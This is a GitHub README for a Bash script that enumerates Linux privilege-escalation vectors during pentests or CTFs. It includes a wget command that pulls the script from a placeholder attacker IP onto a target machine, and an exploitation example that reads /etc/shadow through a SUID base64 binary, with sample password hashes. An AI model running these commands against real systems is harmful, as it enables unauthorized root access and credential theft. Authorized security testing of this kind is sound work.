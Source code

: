 # Linux PrivEsc Checker

A simple Bash script to automate the search for common Linux privilege escalation vectors.

This script is designed to be lightweight and easy to upload to a target machine during a penetration test or CTF to quickly enumerate potential weaknesses.

## 🚀 Demo

Here is the script in action, identifying a SUID binary (`base64`) and other potential vectors.

<img width="2580" height="1390" alt="Snapshot_2025-10-25_07-53-10" src="https://github.com/user-attachments/assets/bdafbf82-5dc3-4e36-a086-cac18790758d" />


## ✨ Features

This script automatically hunts for:

  * **🕵️‍♂️ SUID Binaries:** Scans for suspicious SUID binaries (like `base64`, `nmap`, `find`, etc.) that can be used to escalate privileges.
  * **⚙️ Linux Capabilities:** Searches for binaries with dangerous capabilities (e.g., `cap_sys_admin`, `cap_setuid`).
  * **📁 NFS Exports:** Checks `/etc/exports` for insecure `no_root_squash` configurations.
  * **⏰ Writable Cron Jobs:** Looks for `root` cron jobs that execute scripts or binaries in writable locations.
  * **🛡️ Vulnerable Versions:** Performs a basic check against known vulnerable versions of `sudo` and the Kernel.

## 💻 Usage

### 1\. Clone the Repository

```bash
git clone https://github.com/MS-0x404/Linux-PrivEsc-Checker.git
cd Linux-PrivEsc-Checker
chmod +x privesc.sh
./privesc.sh
```

### 2\. On Target Machine

This is the recommended method for use during a pentest, as seen in the demo video.

1.  Navigate to a writable directory (e.g., `/tmp`):

    ```bash
    cd /tmp
    ```

2.  Download the script from a web server you control (e.g., Python's `http.server`):

    ```bash
    wget http://YOUR-ATTACKER-IP:8000/privesc.sh
    ```

3.  Make it executable:

    ```bash
    chmod +x privesc.sh
    ```

4.  Run it\!

    ```bash
    ./privesc.sh
    ```

## 💡 Example: SUID Exploit

In the demo video, the script identifies `/usr/bin/base64` as having the SUID bit set.

Because the binary runs as `root`, it can be used to read sensitive files, such as `/etc/shadow`, which is normally only readable by root.

```bash
$ ./privesc.sh

    [...]
    Ricerca Privilege Escalation...

[+] Possibile PrivEsc tramite SUID:
  └─ /usr/bin/base64
[+] Possibile PrivEsc tramite Capabilities:
  └─ /usr/bin/python3.13 cap_setuid=eip
[-] Nessuna PrivEsc tramite NFS
[...]
```

**Exploitation:**

```bash
$ base64 /etc/shadow | base64 -d
ubuntu:$y$j9T$vTJesvSYgTtcVv//OGDCPytz0b$HVjAkS46CYIilgc..:19999:7:::
daemon:*:19193:0:99999:7:::
...
test:$y$j9T$vTJesvSYgTtcVv//OGDCPytz0b$HVjAkS46CYIilgc..:19999:7:::
```

-----

## ⚠️ Disclaimer

This tool is intended for **educational and authorized testing purposes ONLY**. Do not use this script on any system you do not have explicit permission to test. The author is not responsible for any misuse or damage caused by this script.
